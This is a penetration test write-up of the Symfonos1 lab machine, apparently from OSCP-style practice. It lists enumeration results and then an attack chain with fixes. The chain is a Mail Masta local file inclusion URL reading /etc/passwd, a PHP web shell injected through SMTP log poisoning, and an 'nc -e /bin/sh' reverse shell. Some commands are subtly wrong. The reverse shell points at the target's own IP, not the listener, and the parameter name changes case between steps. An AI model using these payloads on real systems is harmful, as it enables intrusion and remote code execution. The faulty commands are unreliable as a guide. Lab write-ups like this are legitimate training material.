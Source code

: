 # Penetration Test Report for Symfonos1


## 1.0 Introduction
### 1.1 Introduction - scope
Machine : Symfonos1
Reference Report: PWKv1-Report
## 2.0 Methodologies
### 2.1 Information Gathering
The information gathering portion of a penetration test focuses on identifying the scope of the penetration test. During this penetration test, we was tasked with machine - ***Symfonos1***.

The specific IP addresses was:
* Symfonos1 Network: 192.168.100.2
* Local Kali Network: 192.168.100.4

### 2.2 Service Enumeration
    22/tcp，open，SSH
    25/tcp ，open，SMTP
    80/tcp ，open，HTTP
    139/tcp，open，Netbios-ssn
    445/tcp，open，Microsoft-ds

### 2.3 Penetration
* Vulnerability Exploited: WordPress Plugin Mail Masta 1.0 - Local File Inclusion
* System Vulnerable: 192.168.100.2
* Vulnerability Explanation: The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation. In this situation, Webshell can be attained by this vulnerability.
* Vulnerability Fix:
    1. ID assignation 
        * save your file paths in a secure database and give an ID for every single one, this way users only get to see their ID without viewing or altering the path
    2. Whitelisting  
        *  use verified and secured whitelist files and ignore everything else
    3. Use databases  
        *   don't include files on a web server that can be compromised, use a database instead
    4. Better server instructions 
        * make the server send download headers automatically instead of executing files in a specified directory

* Severity: High（CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N）
* Proof of Concept Code Here:
    ```
    Web Browser:
    
    http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    ```

* Screenshot Here:
![](https://i.imgur.com/IQJ0zd9.png)

---

* Vulnerability Exploited: SMTP Log Poisoning
* System Vulnerable: 192.168.100.2
* Vulnerability Explanation: Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability. To make it work an attacker attempts to inject malicious input to the server log. In this situation, we inject the malicious PHP code via telnet using SMTP service with default mail path /var/mail/helios to escalate the LFI to RCE, and execute "id" command to verify the user-id.
* Vulnerability Fix:
    1.  Perform input validation: 
        * Limit the character set and format to be what your requirements dictate and reject any input that fails to meet your expectations. 
        * Perform input validation on both the client and the server (as applicable).

* Severity: High（CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N）
* Proof of Concept Code Here:
    1. Step 1 : telnet to 192.168.100.2 25 and send malicious php code
    ```
    Local Kali Machine: 
    
    > telnet 192.168.100.2 25
    > <?php system($_GET['HAHA']); ?>
    ```
    2. Step 2 :
    ```
    Web Browser:
    
    http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&HAHA=id
    ```
* Screenshot Here:
![](https://i.imgur.com/s2eMg5K.png)

---

* Vulnerability Exploited: Remote Code Execution（RCE）
* System Vulnerable: 192.168.100.2
* Vulnerability Explanation: RCE will allow a malicious actor to execute any code of their choice on a remote machine over LAN, WAN, or internet. It belongs to the broader class of arbitrary code execution (ACE) vulnerabilities. After ensuring the feasibility of LFI with SMTP log poisoning, change id command to spawn the reverse shell.
* Vulnerability Fix:
    1. Patching your systems with the latest security updates is key to preventing Remote Code Execution exploits.

* Severity: High（CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:C/C:H/I:H/A:H）
* Proof of Concept Code Here:
    1. Step 1 :
    ```
    Local Kali Machine: 
    > nc -lvp 4444
    ```
    2. Step 2 :
    ```
    Web Browser: 
    http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&haha=nc -e /bin/sh 192.168.100.2 4444
    ```
    3. Step 3 :
    ```
    Local Kali Machine: 
    > python -c 'import pty; pty.spawn("/bin/bash")'
    ```
* Screenshot Here:
![](https://i.imgur.com/hcp9fOq.png)

